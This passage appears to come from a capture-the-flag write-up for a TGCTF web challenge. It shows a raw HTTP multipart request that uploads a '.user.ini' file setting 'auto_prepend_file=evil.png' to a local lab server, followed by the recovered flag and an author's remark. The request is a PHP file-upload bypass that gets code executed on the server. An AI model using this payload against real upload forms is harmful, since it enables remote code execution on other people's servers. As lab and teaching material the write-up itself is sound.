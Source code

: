 ```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:1786/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundarycwwSiKQAMI3rRJ0R
Content-Disposition: form-data; name="name"; filename=".user.ini"
Content-Type: application/octet-stream

auto_prepend_file=evil.png

------WebKitFormBoundarycwwSiKQAMI3rRJ0R
Content-Disposition: form-data; name="submit"

------WebKitFormBoundarycwwSiKQAMI3rRJ0R--

```

Refresh the upload website;

done!

TGCTF{9cd13fa9-e234-3e7d-ccca-63ccd54288ad}

由于我也不是生产队的驴，2025-4-15待更



